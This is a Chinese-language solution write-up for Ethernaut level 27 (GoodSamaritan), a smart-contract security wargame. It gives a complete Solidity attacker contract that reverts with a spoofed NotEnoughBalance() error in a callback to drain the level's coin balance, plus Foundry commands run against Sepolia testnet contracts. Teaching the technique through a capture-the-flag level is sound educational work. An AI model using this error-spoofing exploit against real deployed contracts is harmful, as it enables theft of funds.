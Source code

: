 # Level 27

[The Ethernaut level 27](https://ethernaut.openzeppelin.com/level/27)

这一关的目的取出 `GoodSamaritan` 所有余额。

这一关比较简单，只需要攻击合约实现 `INotifyable` 接口，在 `notify` 回调函数中抛出 `NotEnoughBalance()` 错误即可骗过 `Wallet` 合约，使其认为余额不足，进而发送所有“剩余”余额。

攻击者合约：
```
contract Attacker is INotifyable {
    GoodSamaritan level;

    error NotEnoughBalance();

    constructor(address level_) public {
        level = GoodSamaritan(level_);
    }

    function attack() external {
        level.requestDonation();
    }

    function notify(uint256 amount) external {
        if (amount <= 10) revert NotEnoughBalance();
    }
}
```

执行脚本：
```
forge script script/Level27.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

完整代码见：[这里](../../ethernaut/script/Level27.s.sol)

查询攻击合约余额，返回 1000000([1e6])
```
cast call \
0xE58b63c367997C933557B4404e77F9A911A25bcF \
"balances(address)(uint256)" 0x89111a221475E3D0A5e48Cc501630637993Acce0 \
--rpc-url sepolia
```

链上记录：
- [level(`GoodSamaritan`)](https://sepolia.etherscan.io/address/0x28AF65c81B2a3EfaD0Af0ce2A019Fd6fc1604D24)
- [level(`Wallet`)](https://sepolia.etherscan.io/address/0xad8cF598BCfDb7465a5df16056ffc675b1B6ACAB)
- [level(`Coin`)](https://sepolia.etherscan.io/address/0xE58b63c367997C933557B4404e77F9A911A25bcF)
- [Attacker](https://sepolia.etherscan.io/address/0x89111a221475E3D0A5e48Cc501630637993Acce0)
- [attack 交易](https://sepolia.etherscan.io/tx/0x433d9650d7a05b0689973825f6eae03d112a20876824b846677f36ce1fe5b0e9)
